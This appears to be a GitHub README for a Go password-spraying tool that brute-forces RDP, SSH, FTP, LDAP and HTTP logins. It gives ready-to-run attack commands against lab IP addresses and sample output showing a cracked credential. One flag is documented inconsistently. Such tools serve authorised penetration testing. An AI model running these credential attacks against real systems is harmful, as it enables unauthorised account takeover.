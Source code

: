 # whiterabb17/strongarm
 Simple tool to bruteforce (spray actually) different network protocols.
 whiterabb17/strongarm also supports restoration of interrupted tasks ("-restore").
 
 whiterabb17/strongarm currently supports: **rdp, ssh, ftp, Windows LDAP, http basic** and **digest authentication**


```
go run . -ul testUsernames.txt -pl testPasswords.txt -p ftp -t 192.168.56.102:21 -w 10
---------------+
Success: user:123
-------------------
```


```
go run . -ul testUsernames.txt -pl testPasswords.txt -p ftp -t 192.168.56.102:21 -w 10
--------

CTRL+C

go run . -restore
-------+
Success: user:123
-------------------
```

-ul   Path to file with **usernames**

-ul   Path to file with **passwords**

-p   Protocol to brute ( winldap, rdp, ssh, ftp, httpbasic, httpdigest )

-t   Target host. http://127.0.0.1:667/protected/folder/

-w   Number of workers (threads)

-restore use "progress.gob" to restore task
 

 
**Examples:**

```
strongarm.exe -ul testUsernames.txt -pl testPasswords.txt -p ssh -t 192.168.56.102 -w 10

strongarm.exe -ul testUsernames.txt -pl testPasswords.txt -p ftp -t 192.168.56.102:21 -w 10

strongarm.exe -ul testUsernames.txt -pl testPasswords.txt -p rdp -t 192.168.56.105 -w 10

strongarm.exe -ul testUsernames.txt -pl testPasswords.txt -p httpbasic -t http://192.168.56.102:80/2 -w 10 -ru -rp

strongarm.exe -ul testUsernames.txt -pl testPasswords.txt -p httpdigest -t http://192.168.56.102/1 -w 10

strongarm.exe -ul testUsernames.txt -pl testPasswords.txt -p winldap -t 192.168.56.106 -w 10

strongarm.exe -restore
```
